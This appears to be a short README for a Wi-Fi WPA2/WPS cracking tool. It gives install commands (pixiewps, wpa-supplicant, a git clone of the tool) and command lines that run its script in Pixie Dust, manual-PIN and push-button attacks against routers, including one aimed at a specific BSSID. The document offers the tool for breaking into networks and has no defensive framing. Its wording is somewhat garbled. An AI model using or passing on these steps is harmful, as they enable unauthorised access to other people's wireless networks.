 # Wi-Fi WPA2 PassWord HACK ONLY ROUTER

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

apt-get install build-essential

apt-get install libpcap-dev

apt-get install sqlite3

apt-get install libsqlite3-dev

apt-get install pixiewps

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan1 -K
# kali command 
sudo python wifi/kali-ps.py -i wlan1 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 wifi/ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234
# 80% Wi-Fi hack
sudo python3 wifi/ps.py -i wlan0 --pbc
